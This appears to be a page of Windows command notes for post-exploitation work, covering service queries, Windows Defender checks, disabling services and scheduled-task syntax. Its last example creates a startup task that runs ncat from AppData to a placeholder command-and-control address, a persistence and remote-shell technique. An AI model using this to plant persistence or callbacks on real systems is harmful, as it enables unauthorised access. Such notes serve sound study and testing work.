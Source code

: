 ```bash
# Query running services
sc query type= service
tasklist /svc
net start
wmic service list brief # deprecated
# Starting/stopping a svc
sc <start | stop> <service>
net <start | stop | pause | continue> <service>
# Querying Windows Defender
sc query windefend
# Modifying start type (service won't be able to start with 'sc start <service>')
sc config <service> start= disabled
# Reverting the change
sc config <service> start= auto
```

## Scheduled Tasks

```bash
# Viewing all scheduled tasks
schtasks /Query /V /FO list
# Querying a specific task
schtasks /query /tn "My Task" /V /fo list
```

### Create Syntax

<table><thead><tr><th width="138" align="right">Parameter</th><th>Description</th></tr></thead><tbody><tr><td align="right">/sc</td><td>Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.</td></tr><tr><td align="right">/tn</td><td>Sets the name for the task we are building. Each task must have a unique name.</td></tr><tr><td align="right">/tr</td><td>Sets the trigger and task that should be run. This can be an executable, script, or batch file.</td></tr><tr><td align="right">/s</td><td>Specify the host to run on, much like in Query.</td></tr><tr><td align="right">/u</td><td>Specifies the local user or domain user to utilize</td></tr><tr><td align="right">/p</td><td>Sets the Password of the user-specified.</td></tr><tr><td align="right">/mo</td><td>Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.</td></tr><tr><td align="right">/rl</td><td>Allows us to limit the privileges of the task. Options here are <code>limited</code> access and <code>Highest</code>. Limited is the default value.</td></tr><tr><td align="right">/z</td><td>Will set the task to be deleted after completion of its actions.</td></tr></tbody></table>

For creating a new scheduled task we must specify, at a minimum, the following:

* `/create` : to tell it what we are doing
* `/sc` : we must set a schedule
* `/tn` : we must set the name
* `/tr` : we must give it an action to take

{% code overflow="wrap" %}
```bash
schtasks /create /sc ONSTART /tn "My Task" /tr "c:\users\<user>\appdata\local\ncat.exe <c2c-ip> <c2c-port>"
```
{% endcode %}

